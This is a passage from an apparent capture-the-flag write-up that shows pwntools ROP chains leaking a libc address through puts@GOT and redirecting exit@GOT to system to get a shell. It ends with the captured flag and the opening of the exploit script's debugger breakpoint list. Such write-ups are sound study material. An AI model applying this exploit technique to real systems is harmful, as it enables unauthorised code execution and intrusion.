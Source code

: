 ```python
chain0 = ROP(velf)
# infoleak libc address
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# back to main
chain0.raw(main_addr)

chain1 = ROP(velf)
# set first argument to exit@GOT
chain1.raw(poprdiret)
chain1.raw(velf.got['exit'])
# we ignore the second argument, worked anyway
chain1.raw(read_data_addr)
# set first argument to exit@GOT + 8
chain1.raw(poprdiret)
chain1.raw(shaddr)
# call system
chain1.raw(velf.symbols['exit'])
```

And we got a shell :) Remember we had problems with the infoleak on the remote
server. We just swapped libcs and tried it on the remote server and suddenly
our infoleak worked. Apparently it was a buffering issue and jumping back to
main made the infoleak work. We had to adapt the exploit a little and 2 minutes 
later we had a shell :).

```
# cat ~/flag
NDH{d7ef20eef497a1eb9d0d119b45b3855d72e7f594923670e7290aa940e4d3c6f5}
```

yes :)

Here is the full (and uncleaned) exploit script:

```python
#!/usr/bin/env python2
from __future__ import print_function
from pwn import *  # noqa
import numpy as np

gdbscript = """
init-pwndbg
# break exit
# break* 0x401b0d
# break* 0x40168f
# break* 0x4015a5
# break* 0x401a9d
# break* 0x4018e2
# break* 0x400dba
# break* 0x400de6
# break* 0x400e30
# break* 0x400e97
# break* 0x401a38

# break *0x401093
# break *0x4010e9

# break main
# break *0x400fa6

break *0x4010f2

print &system

```